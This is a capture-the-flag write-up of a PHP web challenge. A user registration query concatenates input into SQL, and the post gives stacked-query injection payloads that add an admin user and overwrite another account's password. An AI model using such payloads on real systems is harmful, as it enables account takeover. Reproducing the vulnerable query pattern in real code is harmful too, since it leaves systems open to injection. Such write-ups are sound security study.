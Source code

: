 ```yaml
---
title: IEEE Mansoura Victoris 2.0 - Impersonate Me
image:
    path: /assets/images/victoris2.jpg
date: 2023-09-20 20:00:00 +0800
categories: CTF
description: "Impersonate me web challenge writeup"
tags: [sqli, php]
---
```


Hey folks, This is my write-up for “Impersonate Me” web challenge, the challenge is easy, but only two managed to solve it.

- points: 500
- Total solves: 2

---

nothing on the website but `<a href="?src=">source</a>` to view the source.

```php
<?php 

include 'config.php';
if(isset($_GET['src'])){
    highlight_file(__FILE__);
    exit;
}

if(isset($_GET['username']) && isset($_GET['password']))
{
    if(isset($_GET['register']))
    {
        $username = $_GET['username'];
        $password = sha1($_GET['password']);
        $sql = "INSERT INTO `users`(`is_admin`, `username`, `password`) VALUES (0,'$username','$password')";
        $stmt = $pdo->prepare($sql);
        $stmt->execute();
    }
    else{
        $username = $_GET['username'];
        $password = sha1($_GET['password']);
        $sql = "SELECT * FROM users where username = ? and password = ?";
        $stmt = $pdo->prepare($sql);
        $stmt->execute(array($username,$password));
        while ($row = $stmt->fetch(PDO::FETCH_ASSOC)) {
            if($row['is_admin'] && $row['username'] === 'EG-CERT')
                echo get_flag();
            else
                echo "You are not Authorized to get the Flag";
            exit;
        }
    }
}

?>
```

the code is very simple and straightforward like the previous “Hack Me” challenge.

we can register a new user or log in as an existing user

we can get the flag if the user is admin and the username is “EG-CERT”

the register code uses a prepared statement However, the problem lies in the way it constructs the SQL query string itself. it directly inserts the **`$username`** and **`$password`** variables into the SQL query string without binding them as placeholders. This is where the vulnerability exists because the values are not properly escaped or sanitized.

we can simply inject a stacked query in the username parameter, we can do that in the password parameter because it will be hashed using `sha1`

![Untitled](/assets/images/victorisv2-impersonate-me/Untitled.png)

- payload
    
    ```sql
    juba02', '516b9783fca517eecbd1d064da2d165310b19759'); INSERT INTO `users`(`is_admin`, `username`, `password`) VALUES (1, 'juba0x00
    ```
    
- final query:
    
    ```sql
    INSERT INTO `users`(`is_admin`, `username`, `password`) VALUES (0,'juba02', '516b9783fca517eecbd1d064da2d165310b19759'); INSERT INTO `users`(`is_admin`, `username`, `password`) VALUES (1, 'juba0x00','f1296b8a9af8bf07e47b6ec6372659a8d299216a');
    ```
    

after sending this request I tried to log in as **juba0x00** it successfully logged in, this means we created an admin user, but we need to be **EG-CERT** to get the flag

Notice that the user juba02 is just a dummy user to make the first query's syntax is correct.

first I thought we could create a user called “**EG-CERT**” and **is_admin true**, I tried to log in, but the server did not respond with  “You are not Authorized to get the Flag” or the flag, this means the login query does not return result, I started wondering if the user was successfully created, or if the password was wrong

![wait-a-minute-wth.gif](/assets/images/victorisv2-impersonate-me/wait-a-minute-wth.gif)

wait a minute, the user already exists, we can just edit his password

![Untitled](/assets/images/victorisv2-impersonate-me/Untitled%201.png)

- payload
    
    ```sql
    juba113', 'juba0x00'); UPDATE `users` SET `password` = 'f1296b8a9af8bf07e47b6ec6372659a8d299216a' WHERE `username` = 'EG-CERT'; INSERT INTO `users`(`is_admin`, `username`, `password`) VALUES (0,'juba11
    ```
    
- payload explanation
    
    ```sql
    juba113', 'juba0x00'); EDIT PASSWORD QUERY; ANOTHER QUERY
    ```
    
    I tried to comment the rest of the query after “EDIT PASSWORD QUERY” to not raise an error but it did not work, so I tried to append another dummy query to make the query syntax correct
    
    without the last stacked query the final query will contain `', 'any_pass_sha1');` be like the following:
    
    ```sql
    INSERT INTO `users`(`is_admin`, `username`, `password`) VALUES (0, 'juba113', '516b9783fca517eecbd1d064da2d165310b19759'); UPDATE `users` SET `password` = 'f1296b8a9af8bf07e47b6ec6372659a8d299216a' WHERE `username` = 'EG-CERT';', 'any_pass_sha1');
    ```
    
- final query
    
    ```sql
    INSERT INTO `users`(`is_admin`, `username`, `password`) VALUES (0, 'juba113', '516b9783fca517eecbd1d064da2d165310b19759'); UPDATE `users` SET `password` = 'f1296b8a9af8bf07e47b6ec6372659a8d299216a' WHERE `username` = 'EG-CERT'; INSERT INTO `users`(`is_admin`, `username`, `password`) VALUES (0,'juba11', 'any_pass_sha1');
    ```
    

![Untitled](/assets/images/victorisv2-impersonate-me/Untitled%202.png)

```
IEEE{i_th1nk_1t's_s0_e@sy_challenge_0a17c3be6254df9}
```

---
Thank you for reading. Have a great day!
